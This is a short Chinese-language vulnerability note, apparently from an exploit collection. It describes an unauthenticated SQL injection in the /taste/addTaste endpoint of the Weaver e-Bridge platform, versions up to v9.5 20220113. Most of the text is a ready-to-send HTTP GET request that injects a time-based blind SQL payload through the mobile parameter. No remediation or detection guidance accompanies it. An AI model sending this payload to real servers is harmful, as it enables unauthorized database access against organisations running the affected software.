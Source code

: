 ### **漏洞描述：**

泛微-云桥e-Bridge平台 /taste/addTaste接口存在SQL注入漏洞，未经身份认证的攻击者可以通过此漏洞获取数据库权限。

### **影响版本：**

version <= v9.5 20220113

### **Payload：**

```
GET /taste/addTaste?company=1&userName=1&openid=1&source=1&mobile=1%27%20AND%20(SELECT%208094%20FROM%20(SELECT(SLEEP(5-(IF(18015%3e3469,0,4)))))mKjk)%20OR%20%27KQZm%27=%27REcX HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: */*
Accept-Encoding: gzip
```

---
